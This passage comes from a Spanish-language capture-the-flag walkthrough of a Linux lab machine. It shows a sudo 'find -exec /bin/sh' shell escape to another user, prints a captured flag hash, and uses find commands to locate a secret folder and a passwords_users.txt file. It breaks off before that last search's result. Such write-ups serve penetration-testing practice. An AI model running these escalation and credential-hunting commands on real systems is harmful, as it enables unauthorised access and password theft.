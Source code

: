 ```shell
sudo -u an0n1mat0 find . -exec /bin/sh \; -quit
```

Info:

```
$ whoami
an0n1mat0
```

Ejecutaremos `/bin/bash` para obtener una shell mejor y leeremos la flag de este usuario.

> user2.txt

```
11ab9a33cbd06b3325de00c7e32c0db8
```

## Escalate Privileges

Si hacemos `sudo -l` veremos que nos pedira contraseña, cosa que no tenemos, pero si investigamos mas, en la `home` del usuario `an0n1mat0` veremos que hay un archivo llamado `nota.txt` que contiene lo siguiente.

```
The boss told me that he will soon remove your privileges to be able to access your secret folder.
```

Nos da una pista de que hay una carpeta secreta por alguna parte del sistema, por lo que la buscaremos.

```shell
find / -name 'secret' 2>/dev/null
```

Info:

```
/secret
```

Vemos que en la propia raiz hay una carpeta llamada asi, si vamos dentro de ella veremos un archivo llamado `confidencial.txt` que contiene lo siguiente.

```
There is a super secret file that no one but the boss should read, because there are some user passwords.

You have to move the passwords_users.txt file to a more secure place.
```

Nos da otra pista de que en alguna parte hay un archivo llamado `passwords_users.txt` por lo que lo buscaremos.

```shell
find / -name 'passwords_users.txt' 2>/dev/null
```

Info:
